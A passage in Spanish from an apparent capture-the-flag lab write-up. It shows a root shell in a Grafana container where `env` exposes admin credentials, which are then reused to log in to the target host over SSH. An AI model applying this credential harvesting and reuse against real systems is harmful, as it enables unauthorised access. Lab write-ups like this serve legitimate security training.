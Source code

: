 Desde allí, se ejecuta el comando `env` para listar las **variables de entorno** disponibles en el entorno del contenedor, lo cual es una práctica común para descubrir credenciales hardcodeadas o configuraciones sensibles:

```bash
root@7ce659d667d7:/var/lib/grafana# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/var/lib/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/
```

# SSH

Con las credenciales que previamente adquirimos vamos a proceder a conectarnos al servicio de SSH con el siguiente comando

```bash
                                                                                    
┌──(kali㉿kali)-[~]
└─$ ssh enzo@10.10.11.68        
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri May 16 08:57:27 AM UTC 2025

  System load:           0.0
  Usage of /:            65.1% of 6.30GB
  Memory usage:          41%
  Swap usage:            0%
  Processes:             235
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.68
  IPv6 address for eth0: dead:beef::250:56ff:feb0:a99e


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm
```